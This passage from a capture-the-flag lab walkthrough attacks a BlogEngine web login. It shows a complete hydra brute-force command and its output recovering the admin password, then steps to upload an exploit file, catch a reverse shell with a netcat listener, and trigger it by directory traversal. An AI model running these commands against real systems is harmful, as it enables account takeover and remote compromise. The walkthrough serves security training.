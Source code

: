     __VIEWSTATE=yrGSghNTTe59EhrZcotASBiG%2Fu27NFaNuaqaeJeceE2phHcTUqsXZ3Hl0a3SRfJ0VxuhZAjPF9VCrM6Q8x%2Fj6%2FQSuqhpgUXtrre1D%2BLhluiHKRZKCMF%2Btml5SyIgJed9mYrfaKSB5ecanrjmrT%2BnZHZUlGBG7UQ%2B1aIm74Iwy7D17DW9&__EVENTVALIDATION=jQVBkrYlbLeIG3SEUABAYZue3flPuZINcj8gu8A7CNvKIDb5QlIARVaqkq%2BUWa8%2FS5XYm0r28kj%2B3Im0tRMi1Zl4cd1hWRYiAPt3Hx5keSDUgU%2B4qqJ3DdJpI9gvJniOuEDK9y5%2FfqAiU%2FKfZFGbTENvw835mmLdTut1KKEJTpoFeMIx&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=admin&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in 

Using the above information from Burp, we can now frame the request in hydra for brute forcing. 

    $ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.226.92 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=yrGSghNTTe59EhrZcotASBiG%2Fu27NFaNuaqaeJeceE2phHcTUqsXZ3Hl0a3SRfJ0VxuhZAjPF9VCrM6Q8x%2Fj6%2FQSuqhpgUXtrre1D%2BLhluiHKRZKCMF%2Btml5SyIgJed9mYrfaKSB5ecanrjmrT%2BnZHZUlGBG7UQ%2B1aIm74Iwy7D17DW9&__EVENTVALIDATION=jQVBkrYlbLeIG3SEUABAYZue3flPuZINcj8gu8A7CNvKIDb5QlIARVaqkq%2BUWa8%2FS5XYm0r28kj%2B3Im0tRMi1Zl4cd1hWRYiAPt3Hx5keSDUgU%2B4qqJ3DdJpI9gvJniOuEDK9y5%2FfqAiU%2FKfZFGbTENvw835mmLdTut1KKEJTpoFeMIx&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-04 20:43:57
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking http-post-form://10.10.226.92:80/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=yrGSghNTTe59EhrZcotASBiG%2Fu27NFaNuaqaeJeceE2phHcTUqsXZ3Hl0a3SRfJ0VxuhZAjPF9VCrM6Q8x%2Fj6%2FQSuqhpgUXtrre1D%2BLhluiHKRZKCMF%2Btml5SyIgJed9mYrfaKSB5ecanrjmrT%2BnZHZUlGBG7UQ%2B1aIm74Iwy7D17DW9&__EVENTVALIDATION=jQVBkrYlbLeIG3SEUABAYZue3flPuZINcj8gu8A7CNvKIDb5QlIARVaqkq%2BUWa8%2FS5XYm0r28kj%2B3Im0tRMi1Zl4cd1hWRYiAPt3Hx5keSDUgU%2B4qqJ3DdJpI9gvJniOuEDK9y5%2FfqAiU%2FKfZFGbTENvw835mmLdTut1KKEJTpoFeMIx&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
    [STATUS] 949.00 tries/min, 949 tries in 00:01h, 14343450 to do in 251:55h, 16 active
    [80][http-post-form] host: 10.10.226.92   login: admin   password: 1qaz2wsx
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-04 20:45:33

The brute force attack found the password for admin account as: 1qaz2wsx

### Getting a reverse shell
- Using the [exploit](https://www.exploit-db.com/exploits/46353), update the local host ip in it and upload the file with the name as PostView.ascx using the post editor. 
- Open a netcat session to receive a reverse shell connection `nc -lnvp 4445`
Run the exploit with directory traversal `10.10.73.64/?theme=../../App_Data/files`
- The reverse shell should be established on the netcat session.  
-

    $ nc -lnvp 4445
    listening on [any] 4445 ...
    connect to [10.2.18.4] from (UNKNOWN) [10.10.73.64] 54341
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    whoami
    c:\windows\system32\inetsrv>whoami
    iis apppool\blog

